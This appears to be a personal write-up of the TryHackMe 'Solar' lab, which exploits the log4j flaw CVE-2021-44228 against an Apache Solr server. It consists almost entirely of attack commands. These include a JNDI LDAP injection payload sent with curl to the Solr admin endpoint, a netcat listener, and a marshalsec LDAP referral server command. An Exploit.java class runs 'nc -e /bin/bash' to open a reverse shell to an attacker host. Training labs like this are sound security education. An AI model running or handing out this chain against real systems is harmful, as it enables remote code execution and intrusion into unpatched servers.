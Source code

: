 [TryHackMe | Solar, exploiting log4j](https://tryhackme.com/room/solar)

*Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun.*

![[Pasted image 20230606100110.png]]

`http://10.10.85.5:8983`

`http://10.10.85.5:8983/solr/#/`

![[Pasted image 20230606100945.png]]

`http://10.10.85.5:8983/solr/admin/cores`

![[Pasted image 20230606101210.png]]

`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

```
nc -vnlp 9999
```

```shell-session
curl 'http://10.10.85.5:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\}'
```

```
curl 'http://10.10.85.5:8983/solr/admin/cores?foo=$\{jndi:ldap://10.17.44.152:9999\}'
```

![[Pasted image 20230606101814.png]]

![[Pasted image 20230606101903.png]]

```shell-session
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.239.89:8000/#Exploit"
```

*Exploit.java*

```shell-session
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![[Pasted image 20230723085231.png]]